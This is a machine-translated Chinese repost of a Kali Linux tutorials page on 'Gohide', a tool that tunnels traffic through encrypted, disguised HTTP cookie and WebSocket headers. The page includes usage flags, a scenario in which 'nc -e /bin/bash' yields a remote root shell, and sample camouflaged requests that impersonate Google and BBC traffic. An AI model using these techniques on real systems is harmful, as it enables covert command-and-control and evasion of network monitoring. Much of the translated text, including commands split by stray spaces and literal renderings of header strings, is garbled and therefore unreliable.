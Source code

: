 # Gohide:使用 AES-GCM 加密在模糊通道上隧道传输端口到端口的流量

> 原文：<https://kalilinuxtutorials.com/gohide/>

[![](img/df21b4f78d52db9b5f331d48c30d9470.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgn1amIDFIy8pZiGhRfnjtKzWPISu0Rjo-8eXBrFSA2WrTB1I7d3J1m-6UbkcIMu71ZrCvFbi4VWQq3Ps446uMv1e8JAt-N6w3xYjQ30Hh4_Ush_CivT9iESgl3sOVZsdaNxdR0PkBs73lcW7Ko1v_uWrzySTYcHJeRTfG63QFJt-USQEB0EF39JiQB/s728/gohide_1%20(1).png)

**Gohide** ，通过 AES-GCM 加密的模糊通道实现端口到端口的流量。

**混淆模式**

*   会话 Cookie HTTP GET (http-client)
*   Set-Cookie 会话 Cookie HTTP/2 200 OK (http-server)
*   WebSocket 握手“Sec-web socket-Key”(web socket-client)
*   WebSocket 握手“Sec-web socket-Accept”(web socket-server)
*   没有混淆，只是使用 AES-GCM 加密的消息(无)

对于上述每个选项，AES-GCM 都是默认启用的。

**用途**

root @ WOPR-卡利:/opt/gohide-dev#。/gohide -h
的用法。/gohide:
-f string
listen fake server-r x . x . x . x:xxxx(IP/domain:port)(默认为“0 . 0 . 0 . 0:8081”)
-key OpenSSL passwd-1-salt ok | MD 5 sum
AES 加密秘密:使用'-k OpenSSL passwd-1-salt ok | MD 5 sum '从密码中导出密钥(默认为“5fe10ae58c5ad02a6113305f4e7 用于 TLS 加密模式的 PEM:default =使用硬编码的密钥对' CN:target.com '，none =明文模式(默认为“默认”)
-r string
转发到远程假服务器-r x.x.x.x:xxxx (ip/domain:port)(默认为“127 . 0 . 0 . 1:9999”)

**场景**

方框 A–反向处理器

root @ WOPR-卡利:/opt/gohide#。/gohide-f 0 . 0 . 0 . 0:8081-l 127 . 0 . 0 . 1:8080-r target.com:9091-m web socket-client
本地端口转发监听:127 . 0 . 0 . 0 . 1:8080
fake SRV 监听:0.0.0.0:8081

注意:/etc/hosts "127.0.0.1 target.com "

方框 B–Netcat/bin/bash

**root @ WOPR-卡利:/var/tmp # NC-e/bin/bash 127 . 0 . 0 . 1 9090**

方框 A–Netcat 客户端

**root @ WOPR-KALI:/opt/gohide # NC-v 127 . 0 . 0 . 1 8080
localhost[127 . 0 . 0 . 1]8080(http-alt)open
id
uid = 0(root)GID = 0(root)groups = 0(root)
uname-a
Linux WOPR-KALI 5 . 3 . 0-KALI 2-amd64 # 1 SMP Debian 5 . 3 . 9-1k/gohide**

**混淆样本**

web socket-客户端(框 A 到框 B)

*   Sec-WebSocket-Key 包含 AES-GCM 加密的内容，例如“uname -a”。

**GET/news/API/latest HTTP/1.1
主机:cdn-tb0.gstatic.com
用户代理:Mozilla/5.0(Windows NT 10.0；三叉戟/7.0；rv:11.0)像壁虎
升级:websocket
连接:升级
Sec-web socket-Key:6jZS+0 wg1 IP 3n 33 rievbomiuwh5 zdnmpjvowxm 62
Sec-web socket-Version:13**

web socket-服务器(框 B 到框 A)

*   Sec-WebSocket-Accept 包含 AES-GCM 加密的输出。

**HTTP/1.1 101 交换协议
升级:websocket
连接:升级
Sec-web socket-Accept:urr P5 l 0 z 3 NIH Xi+isjuiytskfop 60 VW 5d 2 gqcmi =**

http 客户端

*   会话 cookie 头包含 AES-GCM 加密的内容

**GET/news/API/latest HTTP/1.1
主机:cdn-tbn0.gstatic.com
用户代理:Mozilla/5.0(Windows NT 10.0；三叉戟/7.0；rv:11.0)像壁虎
接受: */*
接受——语言:en-US，en；q=0.5
Accept-Encoding: gzip，deflate，br
Referer:http://www.bbc.co.uk/
Connection:keep-alive
Cookie:Session = r7ij 8y/ebg canto 6 fc 0 fxhnvda 27 pfxyberjnw 29；安全；HttpOnly**

http-服务器

*   Set-Cookie 头包含 AES-GCM 加密的内容。

**HTTP/2.0 200 OK
内容-编码:gzip
内容-类型:text/html；charset = utf-8
pragma:no-cache
server:nginx
x-content-type-options:no sniff
x-frame-options:same origin
x-XSS-protection:1；mode = block
cache-control:no-cache，no-store，must-revalidate
过期时间:2019 年 11 月 21 日星期四 01:07:15 GMT
日期:2019 年 11 月 21 日星期四 01:07:15 GMT
content-length:30330
vary:Accept-Encoding
X-Firefox-Spdy:H2
Set-Cookie:Session = gWMnQhh+安全；path =/；HttpOnly**

没有人

**8 jwxufvora 2 FNA/8m 2 vnub 6 OIA 2 rav 4q 5 tuelja**

[**Download**](https://github.com/Potato-Industries/gohide)